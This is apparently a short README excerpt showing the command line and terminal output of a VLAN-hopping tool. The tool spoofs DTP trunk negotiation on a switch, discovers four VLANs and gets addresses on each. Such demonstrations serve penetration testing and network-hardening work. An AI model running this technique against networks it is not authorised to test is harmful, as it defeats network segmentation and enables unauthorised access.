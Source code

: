 ```bash

$ sudo ./VLANHopperDTP.py -i enp5s0f1

        :: VLAN Hopping via DTP Trunk negotiation 
        Performs VLAN Hopping via negotiated DTP Trunk / Switch Spoofing technique
        Mariusz B. / mgeeky, '18
        v0.2

[+] VLAN Hopping IS possible.
[>] After Hopping to other VLANs - leave this program running to maintain connections.
[>] Discovering new VLANs...
==> VLAN discovered: 10
==> VLAN discovered: 20
==> VLAN discovered: 30
==> VLAN discovered: 99
[+] Hopped to VLAN 10.: 172.16.10.10
[+] Hopped to VLAN 20.: 172.16.20.10
[+] Hopped to VLAN 30.: 172.16.30.11
[+] Hopped to VLAN 99.: 172.16.99.10
```
